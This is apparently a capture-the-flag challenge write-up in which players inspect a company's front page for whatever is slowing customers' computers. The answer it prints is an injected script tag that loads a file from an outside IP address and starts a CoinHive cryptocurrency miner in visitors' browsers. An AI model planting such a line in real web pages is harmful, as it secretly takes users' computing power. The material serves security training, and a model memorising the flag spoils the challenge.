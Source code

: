 # 0_intrusion
DriveByInc

## Challenge 

Welcome to Drive By Inc. We provide all sorts of logistical solutions for our customers. Over the past few years we moved to hosting a large portion of our business on a nice looking website. Recently our customers are complaining that the front page of our website is causing their computers to run extremely slowly. We hope that it is just because we added too much javascript but can you take a look for us just to make sure?

1. What is the full malicious line? (Including any HTML tags)

## Solution

Look through the HTML to find it

## Flag

	<script src = http://10.187.195.95/js/colorbox.min.js></script><script>var color = new CoinHive.Anonymous("123456-asdfgh");color.start()</script></body>
